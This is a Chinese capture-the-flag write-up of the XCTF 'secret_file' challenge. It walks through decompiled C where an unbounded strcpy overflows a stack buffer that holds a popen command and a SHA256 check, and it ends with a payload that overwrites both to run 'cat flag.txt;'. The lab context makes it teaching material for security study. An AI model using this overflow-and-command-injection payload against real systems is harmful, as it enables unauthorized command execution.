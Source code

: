 # secret_file

题目来源：https://adworld.xctf.org.cn/task/

这道题目其实更重要的是对题目的代码的理解，只要知道了这段代码在干嘛其实漏洞的发现和利用是很容易找的。但是最终在利用漏洞的方法上还是有一点点小技巧。先看一下这道题的防护措施：

```
Arch:     amd64-64-little                                           
RELRO:    Full RELRO                                                
Stack:    Canary found                                                 
NX:       NX enabled                                               
PIE:      PIE enabled
```

这道题有意思的是把所有可能碰到的防护手段都开到了最大。意味着栈溢出的利用和普通的堆的注入都很难奏效了。所以先看一下代码，这道题的代码可能非常难理解：

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char *v3; // rax
  unsigned __int8 *v4; // rbp
  int *v5; // rbx
  __int64 v6; // rcx
  char *v7; // rdi
  unsigned int v8; // er12
  FILE *v9; // rbp
  __int64 v11; // [rsp+0h] [rbp-308h]
  char *lineptr; // [rsp+8h] [rbp-300h]
  char dest; // [rsp+10h] [rbp-2F8h]
  __int64 v14; // [rsp+110h] [rbp-1F8h]
  _BYTE v15[5]; // [rsp+12Bh] [rbp-1DDh]
  int v16; // [rsp+16Ch] [rbp-19Ch]
  int v17; // [rsp+18Ch] [rbp-17Ch]
  int v18; // [rsp+1CCh] [rbp-13Ch]
  char s; // [rsp+1D0h] [rbp-138h]
  unsigned __int64 v20; // [rsp+2D8h] [rbp-30h]

  v20 = __readfsqword(0x28u);
  sub_55D6256ABE60(&dest);
  v11 = 0LL;
  lineptr = 0LL;
  if ( getline(&lineptr, (size_t *)&v11, stdin) == -1 )
    return 1;
  v3 = strrchr(lineptr, 10);
  if ( !v3 )
    return 1;
  *v3 = 0;
  v4 = (unsigned __int8 *)&v16;
  v5 = &v17;
  strcpy(&dest, lineptr);
  sub_55D6256ABDD0((__int64)&dest, &v16, 0x100u);
  do
  {
    v6 = *v4;
    v7 = (char *)v5;
    v5 = (int *)((char *)v5 + 2);
    ++v4;
    snprintf(v7, 3uLL, "%02x", v6);
  }
  while ( v5 != &v18 );
  v8 = strcmp(v15, (const char *)&v17);
  if ( v8 )
  {
    puts("wrong password!");
    return 1;
  }
  v9 = popen((const char *)&v14, "r");
  if ( !v9 )
    return 1;
  while ( fgets(&s, 256, v9) )
    printf("%s", &s);
  fclose(v9);
  return v8;
}
```

先看 main 函数，首先就会遇到一个 sub_55D6256ABE60，这是第一个需要理解的函数：

```C
unsigned __int64 __fastcall sub_55D6256ABE60(char *a1)
{
  __int64 v2; // [rsp+0h] [rbp-78h]
  __int64 v3; // [rsp+8h] [rbp-70h]
  __int64 v4; // [rsp+10h] [rbp-68h]
  __int16 v5; // [rsp+18h] [rbp-60h]
  char v6; // [rsp+1Ah] [rbp-5Eh]
  __int64 v7; // [rsp+20h] [rbp-58h]
  __int64 v8; // [rsp+28h] [rbp-50h]
  __int64 v9; // [rsp+30h] [rbp-48h]
  __int64 v10; // [rsp+38h] [rbp-40h]
  __int64 v11; // [rsp+40h] [rbp-38h]
  __int64 v12; // [rsp+48h] [rbp-30h]
  __int64 v13; // [rsp+50h] [rbp-28h]
  __int64 v14; // [rsp+58h] [rbp-20h]
  char v15; // [rsp+60h] [rbp-18h]
  unsigned __int64 v16; // [rsp+68h] [rbp-10h]

  v16 = __readfsqword(0x28u);
  v6 = 0;
  memset(a1, 0, 0x100uLL);
  v2 = 8386093036507587119LL;
  v3 = 7310014432551054880LL;
  v4 = 7002641623085768564LL;
  v5 = 25459;
  snprintf(
    a1 + 256,
    0x1BuLL,
    "%s",
    &v2,
    8386093036507587119LL,
    7310014432551054880LL,
    7002641623085768564LL,
    *(_QWORD *)&v5);
  v7 = 7291380990809223993LL;
  v8 = 3846974793129996595LL;
  v9 = 7149517611173568821LL;
  v10 = 7005684783558900022LL;
  v11 = 3703759022809560162LL;
  v12 = 3559359259495392098LL;
  v13 = 3544673966641145443LL;
  v14 = 3977295534107146545LL;
  v15 = 0;
  snprintf(a1 + 283, 0x41uLL, "%s", &v7);
  return __readfsqword(0x28u) ^ v16;
}
```

仔细看一下这个子函数，首先在 dest 参数开始部分的 256 个字节处全部初始化为 0，然后从第 257 位开始会分别两次放入数据，首先是放入一个长度为 0x1B 的字符串，然后放入一个长度为 0x41 的字符串。这就是 dest 初始情况下的结构，相当于由三部分构成。

继续看 main 函数，使用 getline 函数向 lineptr 中输入字符串，然后将该字符串复制到 dest 处。随后对现在的字符串调用 sub_55D6256ABDD0：

```c
unsigned __int64 __fastcall sub_55D6256ABDD0(__int64 a1, _QWORD *a2, unsigned int a3)
{
  unsigned int v3; // er12
  __int64 v5; // [rsp+0h] [rbp-A8h]
  unsigned __int64 v6; // [rsp+78h] [rbp-30h]

  v3 = a3;
  *a2 = 0LL;
  a2[1] = 0LL;
  v6 = __readfsqword(0x28u);
  a2[2] = 0LL;
  a2[3] = 0LL;
  SHA256_Init((__int64)&v5);
  SHA256_Update((__int64)&v5, a1, v3);
  SHA256_Final((__int64)a2, (__int64)&v5);
  return __readfsqword(0x28u) ^ v6;
}
```

在这个子函数中完成的是对 dest 字符串前 256 个字节进行 SHA256 运算，最后的结果会保存在 v16 中，v16 保存的是计算出来的 256bit(32 个字节) 的值。

while 循环将 32 个字节的数据用 16 进制表示出来，这样会占用 64 个字节的空间。直到最后仔细看，需要将这个摘要值和一个预设的摘要值进行比较，按照位置计算可以发现，其实就是在 dest 中第二次输入的字符串！

随后会使用 popen 执行一个命令，这里简单说一下 popen 函数：

> popen()函数通过创建一个管道，调用fork()产生一个子进程，执行一个shell以运行命令来开启一个进程。这样相当于执行了某个命令，然后将输出的结果保存在一个管道文件内。

如果仔细看一下参数的分布，可以发现使用 popen 执行的命令内容，恰好是 dest 字符串第一次额外输入的内容。

---

到这里基本上看懂了程序在干嘛了，那么漏洞点也很明显，在 getline 函数处以及下面的 strcpy 处都没有对输入的长度做限制，因此存在缓冲区的溢出。

由上面的分析可以直到 dest 的后面部分涉及了需要执行的命令和验证，所以覆盖 dest 字符串是很有意义的。事实上也能想到，如果将命令修改为 cat flag 并且将验证部分设置成已知的就可以了。确实，假设我们预先计算一下 256 个 a 的 SHA256 值然后附在 dest 后面也就直接破解了验证，自然而然的 payload 如下：

```
'a' * 256 + commandStr + SHA256('a' * 256)
```

最后的问题的是 commandStr，一开始我就是直接想插入 cat flag.txt 字符串，至于这个文件名是可以通过命令 ls 去获得的。但是由于 strcpy  会对 \0 截断，所以直接放字符串不行。这里的目的就是为了执行部分的命令，学到一招使用分号：

> 单行语句一般要用到分号来区分代码块，例如：
>
> ```
> if [ "$PS1" ]; then echo test is ok; fi
> test is ok
> ```
>
> 该脚本或命令行中，需要两个分号才为正确的语句，第一个分号是then前的分号，用于标识条件块结束，第二个分号在fi前，用于标识then块结束，如果缺少这两个分号，则程序执行错误。

所以在命令后面加个分号，无论后面填充什么，这前面的命令都会执行了，payload 就是：

```
'a' * 256 + 'cat flag.txt;'.ljust(0x1B, ' ') + SHA256('a' * 256)
```

